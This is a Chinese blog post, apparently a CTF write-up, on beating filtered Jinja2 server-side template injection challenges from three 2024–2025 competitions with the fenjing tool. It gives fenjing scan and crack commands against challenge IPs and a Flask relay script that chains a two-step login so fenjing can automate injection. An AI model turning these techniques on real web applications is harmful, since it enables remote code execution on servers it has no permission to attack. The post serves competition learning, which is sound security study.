 #  从国赛到西湖论剑：fenjing进阶通杀jinjia2_SSTI   
原创 Zacarx  Zacarx随笔   2025-01-20 09:58  
  
   
  
## 前言  
  
最近俩月比赛遇到了三个jinjia2_SSTI题目，发现其虽然有过滤，但是fenjing都可以对其过滤进行降维打击。可问题是fenjing不一定就能用得上，需要一些**改造思路**  
，下面我就结合这三次比赛带大家体会一下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxnqr7U33vIfKoqm5o5ajhbvhSLuNAayvuq8mcmVOYkvDicaU1iaADkNmg/640?wx_fmt=png&from=appmsg "null")  
  
## 初级用法：一把梭  
### 春秋冬季赛day1:  
  
非常简单梭哈即可，具体工具用法直接去看：https://github.com/Marven11/Fenjing  
  
fenjing scan -u "http://47.94.155.240:28672/"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxlNoIzOe8Jia0hllnQQDMUCgYxcmbIpy8GPK0jKrGBSH4o3ROaBTjbRQ/640?wx_fmt=png&from=appmsg "null")  
  
## 如何进阶？  
  
**我们的思路就是二开或代理**  
，其分别对应有源码情况以及无源码情况；  
  
注意：**二开不是二开工具是二开题目，代理即帮助fenjing进行交互。**  
### 有源码：国赛  
  
题目来自于第十八届全国大学生信息安全竞赛 （创新实践能力赛）暨第二届“长城杯” 铁人三项赛（防护赛）初赛 Safe_Proxy  
  
这个题其实是无回显不出网有过滤的SSTI,但是有源码  
  
于是我们稍微改一下就变成了有回显不出网有过滤的SSTI  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxXvZHdoDd7bQQKATtjq0A4ZNYhE5ps6jvExt1kVD0nh0iaCPOhkU1zLQ/640?wx_fmt=png&from=appmsg "null")  
  
  
然后本地跑起来，fenjing一把锁得到payload，最后去打题目环境即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxk3NjZ0K4XKk8NV6lPGSmkyOCxEsETa3zNayCVSCWpyf8UiasMpS7BOQ/640?wx_fmt=png&from=appmsg "null")  
  
  
记得编码一下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxU20ZwicYia4ddx9X66rrcQuMhHibJpG14HeNYF9uycGPa7YAa3m4thAyQ/640?wx_fmt=png&from=appmsg "null")  
  
  
得到flag  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxu4Anxn2TPaS5tywk4hQjplZnGyfn8ibpS0aQatAPj8P7buSLHQkcdBQ/640?wx_fmt=png&from=appmsg "null")  
  
### 无源码：西湖论剑  
  
题目来自于前两天的2025西湖论剑  
  
前面没有截图简单说一下这个题目：  
  
就是第一个页面/login让你输入手机号phone_number=a，点击提交  
  
然后跳转第二个页面/cpass让你输入密码password=123456，再提交  
  
最后弹窗说"a不满足手机号格式"  
  
显然，注入点SSTI在phone_number，但是我们无法直接进行利用，原因在于无法把两次交互都放在fenjing上  
  
那么我们的思路也就有了：  
  
写一个本地python代理程序，访问localhost POST传入phone_number=&password=  
  
而这个程序帮我分别访问http://139.155.126.78:21317/login POST传入phone_number  
  
和http://139.155.126.78:21317/cpass POST传入password=12345678  
  
注意: http://139.155.126.78:21317/login会返回一些状态信息以保证与http://139.155.126.78:21317/cpass 对应  
  
那么写一个本地源码：  
```
from flask import Flask, request, Responseimport requestsapp = Flask(__name__)BASE_URL = "http://139.155.126.78:27325/"@app.route('/', methods=['POST'])defproxy():    phone_number = request.form.get('phone_number')    try:        login_response = requests.post(            f"{BASE_URL}/login",            data={"phone_number": phone_number},              timeout=10        )        if login_response.status_code != 200:            return Response(f"Failed to call /login. Status code: {login_response.status_code}", status=500)        login_status = login_response.text.strip()        cpass_response = requests.post(            f"{BASE_URL}/cpass",            data={"password": 123456789, "login_status": login_status},              timeout=10        )        if cpass_response.status_code != 200:            return Response(f"Failed to call /cpass. Status code: {cpass_response.status_code}", status=500)        cpass_result = cpass_response.text.strip()        response_data = f"Login response: {login_status}\nCpass response: {cpass_result}"        return Response(response_data, status=200)    except Exception as e:        return Response(f"An error occurred: {str(e)}", status=500)if __name__ == '__main__':    app.run(host="127.0.0.1", port=5000)
```  
  
然后fenjing梭哈  
```
fenjing crack -u "http://127.0.0.1:5000/" -i phone_number
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxN7JibMI4lrKMyF5nGpenXcqywOCMibts0cjluBXLYQE1Abib9CoibZdLFA/640?wx_fmt=png&from=appmsg "null")  
  
  
拿到payload:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxk2U9T7HgibTJnvnq7wBLOP5GOPomfzCnLZIXaic9QYeBaaxWbibqeOTKA/640?wx_fmt=png&from=appmsg "null")  
  
  
还有flag  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XLoEenAE7ATqoH2BhjFC8WPtibdS4BUYxztTvkW5g4CjX7gfaUVgqpicHLBnADRcJMMcSnY6ibNdSKFdAibuOOFk6Q/640?wx_fmt=png&from=appmsg "null")  
  
  
   
  
